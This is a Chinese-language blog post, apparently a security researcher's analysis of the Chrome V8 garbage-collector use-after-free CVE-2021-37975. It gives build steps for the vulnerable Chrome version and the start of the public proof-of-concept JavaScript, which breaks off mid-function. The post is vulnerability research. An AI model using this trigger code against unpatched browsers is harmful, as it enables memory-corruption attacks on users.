 ```yaml
---
layout: post
title: "分析 CVE-2021-37975"
---
```


继续分析 Chrome 在野利用，这次分析 [CVE-2021-37975](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2021/CVE-2021-37975.html)，这个漏洞是 GC 组件中的代码逻辑问题，可以导致释放后重利用。正好通过分析这个漏洞了解一下 v8 的 GC 实现，以及释放后重利用漏洞的利用策略。

## 复现

阅读[报告](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2021/CVE-2021-37975.html)得知低于 94.0.4606.71 的 Chrome 受此漏洞影响，搜索 [2021 年 9月 的 Chrome 发布记录](https://chromereleases.googleblog.com/2021/09/) 找到 94.0.4606.61，从源码构建出此版本 Chrome。

```
git fetch --depth 1 `
https://chromium.googlesource.com/chromium/src.git `
+refs/tags/94.0.4606.61:chromium_94.0.4606.61

git checkout tags/94.0.4606.61
gclient sync -v
gclient sync --with_branch_heads
gclient runhooks
```

```
gn args out/CVE-2021-37975
ninja -C out/CVE-2021-37975 chrome
```

---
**ℹ️NOTE**: sync 过程中我遇到了 v8 rebase 冲突的问题，没找到导致冲突的原因，只好采用比较笨的办法，把 v8 目录删掉后重新运行 `gclient sync -v`，这样 gclient 新同步了一份 v8 代码就可以了。

---

提取报告中的 POC 代码，用 `python -m http.server` 搭建一个可以触发漏洞的本地站点。

```JavaScript
// poc.js

var initKey = {init : 1};
var level = 4;
var map1 = new WeakMap();

function hideWeakMap(map, level, initKey) {
  let prevMap = map;
  let prevKey = initKey;
  for (let i = 0; i < level; i++) {
    let thisMap = new WeakMap();
    prevMap.set(prevKey, thisMap);
    let thisKey = {'h' : i};
    thisMap.set(prevKey, thisKey);
    prevMap = thisMap;
    prevKey = thisKey;
    if (i == level - 1) {
      let retMap = new WeakMap();
      map.set(thisKey, retMap);
      return thisKey;
    }
  }
}

function getHiddenKey(map, level, initKey) {
```